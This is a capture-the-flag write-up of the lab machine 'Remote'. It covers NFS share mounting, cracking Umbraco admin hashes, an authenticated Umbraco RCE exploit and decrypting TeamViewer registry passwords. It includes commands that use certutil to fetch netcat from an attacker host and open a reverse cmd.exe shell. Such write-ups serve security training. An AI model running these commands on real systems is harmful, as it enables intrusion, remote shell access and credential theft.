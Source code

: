 # Remote

### Reconnaissance

- port 21/tcp FTP Microsoft ftpd
- port 80/tcp HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 111/tcp RPCBIND
- port 139/tcp RPC
- port 139/tcp NetBIOS
- port 445/tcp SMB
- port 2049/tcp NFS netlockmgr 1-4 (RPC #100021)
- port 5985/tcp WinRM
- port 47001/tcp WinRM
- port 49664 - 49680/tcp RPC

**Port 21 FTP**

Anonymous access is enabled but no files are listed

**Port 80**

Website for Acme Widgets, /people could be useful for user enumeration

**Port 445**

SMB anon access is disabled

**Port 2049**

Use `showmount` to list any NFS shares

`showmount -e 10.10.10.180`

![NFS share](./pictures/nfs.png)

We can mount the share to view the contents

`sudo mount -t nfs 10.10.10.180:site_backups /mnt/remote`

![Share contents](./pictures/share-contents.png)

Looking through the file system we find a DB file, Umbraco.sdf, that contains user emails and hashed passwords

We can see user credentials with `strings` showing emails, password hashes, and the hashing algorithm

The admin@htb.local password is hashed with SHA1 and can be cracked with john or hashcat to get the admin 
credentials for the Umbraco CMS panel at /umbraco

![hash](./pictures/hash.png)

### Exploitation

Looking around the dashboard we can find the version of Umbraco running and check for any known exploits

![Umbraco](./pictures/umbraco.png)

[Umbraco authenticated RCE](https://www.exploit-db.com/exploits/49488) affecting version 7.12.4, works and gives us RCE

We can use the exploit to upload a netcat binary and get a reverse shell

*To use the `-a` option, declare the argument with `-a="args go here"` otherwise the shell splits the string 
into multiple arguments. The exploit uses XML so we need to escape the \ characters*

`python3 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c 'certutil' -a='-urlcache -f http://10.10.10.10:8181/nc64.exe C:\\Windows\\System32\\Spool\\Drivers\\color\\nc.exe'`

`python3 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c 'C:\\Windows\\System32\\Spool\\Drivers\\color\\nc.exe' -a='10.10.10.10 443 -e cmd.exe'`

### Privilege Escalation

Enumerating Program Files (x86) we see that TeamViewer v.7 is installed

TeamViewer stores AES encrypted passwords in the registry key `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

![reg query](./pictures/reg-query.png)

These passwords all use the same AES key and IV, [shown here](https://whynotsecurity.com/blog/teamviewer/)

Using CyberChef with the key and IV, we can decrypt the password

![CyberChef](./pictures/cyberchef.png)

Then we can get an Administrator reverse shell with `evil-winrm`

![root](./pictures/root.png)

### Lessons Learned

- Sometimes FTP directories are just empty!

- Show mountable NFS shares on a target with `showmount -e 10.10.10.10`

- Mount NFS shares with `sudo mount -t nfs 10.10.10.10:share_name /mnt/share_name/ -nolock`
